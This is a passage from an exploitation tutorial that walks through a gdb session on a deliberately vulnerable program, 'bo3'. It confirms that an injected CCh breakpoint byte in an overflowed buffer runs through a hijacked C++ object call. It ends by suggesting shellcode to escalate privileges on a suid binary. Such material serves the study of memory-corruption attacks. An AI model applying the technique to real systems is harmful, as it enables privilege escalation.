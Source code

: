 ```
0x8048700 <main+144>:   movswl (%esi),%eax
0x8048703 <main+147>:   movl   %eax,%edx
0x8048705 <main+149>:   addl   0xfffffffc(%ebp),%edx
0x8048708 <main+152>:   pushl  %edx
0x8048709 <main+153>:   movl   0x4(%esi),%edi
0x804870c <main+156>:   call   *%edi
0x804870e <main+158>:   addl   $0x4,%esp
0x8048711 <main+161>:   xorl   %eax,%eax
0x8048713 <main+163>:   jmp    0x8048720 <main+176>
0x8048715 <main+165>:   leal   0x0(%esi,1),%esi
0x8048719 <main+169>:   leal   0x0(%edi,1),%edi
0x8048720 <main+176>:   leal   0xffffffec(%ebp),%esp
0x8048723 <main+179>:   popl   %ebx
0x8048724 <main+180>:   popl   %esi
0x8048725 <main+181>:   popl   %edi
0x8048726 <main+182>:   movl   %ebp,%esp
0x8048728 <main+184>:   popl   %ebp
---Type <return> to continue, or q <return> to quit---
0x8048729 <main+185>:   ret
0x804872a <main+186>:   leal   0x0(%esi),%esi
End of assembler dump.
```

Next, we install a breakpoint in `0x8048690`, to get the address of our 1st 
object.

```
(gdb) break *0x8048690
Breakpoint 1 at 0x8048690
```

And finally, we launch our program:

```
(gdb) run
Starting program: /home/rix/BO/bo3
Breakpoint 1, 0x8048690 in main ()
```

We read the address of our 1st object:

```
(gdb) info reg eax
     eax:  0x8049b38   134519608
```

Then we pursue, while hoping that all happens as foreseen... :)

```
Continuing.
Program received signal SIGTRAP, Trace/breakpoint trap.
0x8049b58 in ?? ()
```

We receive a `SIGTRAP` well, provoked by the instruction preceding the `0x8049b58` 
address. However, the address of our object was `0x8049b38`.
`0x8049b58-1-0x8049b38=0x1F` (=31), which is exactly the offset of our `CCh` in our 
buffer. Therefore, it is well our `CCh` that has been executed!!!
You understood it, we can now replace our simple `CCh` code, by a small
shellcode, to get some more interesting results, especially if our program
`bo3` is `suid`... ;)
